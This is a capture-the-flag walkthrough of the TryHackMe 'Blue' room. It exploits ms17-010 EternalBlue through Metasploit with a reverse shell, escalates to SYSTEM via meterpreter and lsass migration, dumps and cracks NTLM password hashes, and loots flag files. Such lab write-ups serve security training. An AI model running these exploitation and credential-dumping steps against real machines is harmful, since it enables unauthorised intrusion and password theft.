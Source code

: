 # [Blue][1]
Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

### [TASK 1] Recon

Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

![Nmap Scan](images/scan.jpg)

How many ports are open with a port number under 1000? **3**

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) **ms17-010**
> To do that run nmap with *vuln* script. Command is `sudo nmap --script=vuln -Pn <IP>`

![Vuln Nmap Script](images/vuln_scan.jpg)


### [TASK 2] Gain Access

Start Metasploit
> In terminal, type `msfconsole`

Find the exploitation code we will run against the machine. What is the full path of the code? **exploit/windows/smb/ms17_010_eternalblue**

> To search for eteranlblue payloads type, `search ms17-010`

![Eternal Blue Search](images/eternal_payload.jpg)

To use this exploit, type `use 2`

Show options and set the one required value. What is the name of this value? **RHOSTS**

Set the payload as windows shell using the command `set payload windows/x64/shell/reverse_tcp`

> Make sure to check the *LHOST*, it should be the IP from your VPN connection with TryHackMe.

![Options for Eternal Blue](images/options_eternal.jpg)

With that done, run the exploit!
> Type, `run` or `exploit` to execute the payload.

![Run Command](images/get_access.jpg)

### [TASK 3] Escalate

Type, `background` to send the current session in background or you could just do `Ctrl+Z`.

![Background](images/background.jpg)

Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? **post/multi/manage/shell_to_meterpreter**
> Well, you could go online and check this. As the hint says *Google: shell_to_meterpreter*. Why don't we search this in metasploit database.

![Search Shell To Meterpreter](images/search_shell_meter.jpg)

Select this (use MODULE_PATH). Show options, what option are we required to change? **SESSION**

![Show Options](images/session_options.jpg)

Set the required option, you may need to list all of the sessions to find your target here.
> Type, `sessions` to get all the current sessions in metaspolit. Note the number for the session that has eternal blue exploit.

![Sessions](images/shell_options.jpg)

Run! If this doesn't work, try completing the exploit from the previous task once more.
> Type, `run` or `exploit` to execute the payload. Just press enter when it says Stopping ...

![Run Shell](images/run_shell.jpg)

Once the meterpreter shell conversion completes, select that session for use.
> Type, `sessions <id>`. Where *id* is the number of session which we just created i.e. *shell_to_meterpreter* one.

![Run Session2](images/session_2.jpg)

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

`getsystem`

`shell`

`whoami`

![Commands Test](images/basic_cmds.jpg)

Press `Ctrl+Z` to go back.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).
> The Process we are interested in here is **lsass.exe**. Copy the Process ID. Why this? read the below question :relaxed:

![Process Running](images/ps_cmd.jpg)

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
> In my case, it is 716 so `migrate 716`.

![Migrate](images/migrate.jpg)

### [TASK 4] Cracking

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **Jon**

![Hashdump](images/hashdump.jpg)

Copy this password hash to a file and research how to crack it. What is the cracked password? **alqfna22**

> The format for the hash is **Userame:LM_HASH:NTLM_HASH:::**. Copy the *NTLM_HASH* and past it onto [Crack Station's Website][3].

![Crack Password](images/crackstation.jpg)

> You can also use hashcat. Check the [hashcat cheatsheet][4]. Paste the hash in a text file in format **USERNAME:NTLM_HASH**. Use, `hashcat -a 0 -m 1000 hash.txt rockyou.txt --force --username --show`


### [TASK 5] Find flags!

Flag1? This flag can be found at the system root.  
> Located in the C drive i.e. ***C:\***.

![Flag1](images/flag1.jpg)

Flag2? This flag can be found at the location where passwords are stored within Windows.
> Located where passwords are stored and i.e. ***C:\Windows\System32\config***

![Flag2](images/flag2.jpg)

Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
> Located in the Documents folder i.e. ***C:\Users\Jon\Documents***

![Flag3](images/flag3.jpg)

[1]: https://tryhackme.com/room/blue
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://crackstation.net/
[4]: https://github.com/frizb/Hashcat-Cheatsheet
